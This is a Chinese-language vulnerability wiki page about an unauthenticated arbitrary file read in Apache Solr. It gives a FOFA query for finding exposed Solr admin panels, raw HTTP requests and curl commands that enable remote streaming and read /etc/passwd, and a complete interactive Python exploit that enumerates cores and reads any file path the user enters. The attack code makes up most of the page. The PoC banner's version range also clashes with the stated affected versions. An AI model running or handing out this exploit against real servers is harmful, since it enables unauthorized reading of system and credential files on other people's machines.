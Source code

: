 # Apache Solr 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

## 漏洞影响

> [!NOTE]
>
> Apache Solr <= 8.8.1

## FOFA

> [!NOTE]
>
> title="Solr Admin"

## 漏洞复现

访问 Solr Admin 管理员页面

![](http://wikioss.peiqi.tech/vuln/solr-27.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

获取core的信息

```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```

![](http://wikioss.peiqi.tech/vuln/solr-28.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求

![](http://wikioss.peiqi.tech/vuln/solr-29.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包如下

```
POST /solr/ckan/config HTTP/1.1
Host: xxx.xxx.xxx:8983
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://118.31.46.134:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}

```

再进行文件读取

![](http://wikioss.peiqi.tech/vuln/solr-30.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包如下

```
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

![](http://wikioss.peiqi.tech/vuln/solr-31.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

Curl请求为

```sh
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'

curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd" 
```

## 漏洞利用POC

> [!NOTE]
>
> POC还是建立在未授权访问的情况下

```python
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 poc.py     			    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)

```

![](http://wikioss.peiqi.tech/vuln/solr-32.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Apache_Solr_Arbitrary_File_Read.json

![](http://wikioss.peiqi.tech/vuln/solr-33.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



## 参考文章

https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ